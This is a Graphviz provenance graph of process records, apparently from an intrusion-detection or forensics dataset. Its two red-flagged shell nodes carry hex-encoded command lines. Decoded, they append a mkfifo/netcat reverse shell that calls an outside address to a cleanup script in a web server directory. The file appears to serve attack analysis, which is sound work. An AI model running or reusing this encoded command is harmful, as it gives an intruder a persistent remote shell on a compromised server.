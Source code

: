 digraph graph1 {
node [shape = record];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: -1 | uuid: 1368}", color = red];
node [shape = record];
table161 [label = "{<head>processname: sh | pid: 1367 | cmdline: sh -c 2f62696e2f7368202d632022636420222f7661722f7777772f68746d6c223b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d2220323e2631 | starttime: 1618986281293000000 | enddtime: -1 | uuid: 1367}"];
table161 -> table162;
node [shape = record];
table138 [label = "{<head>processname:  | pid: 933 | cmdline:  | starttime: 0 | enddtime: -1 | uuid: 933}"];
table138 -> table161;
node [shape = record];
table135 [label = "{<head>processname:  | pid: 925 | cmdline:  | starttime: 0 | enddtime: -1 | uuid: 925}"];
table135 -> table138;
node [shape = record];
table0 [label = "{<head>processname:  | pid: 0 | cmdline:  | starttime: 0 | enddtime: -1 | uuid: 0}"];
table0 -> table135;
}
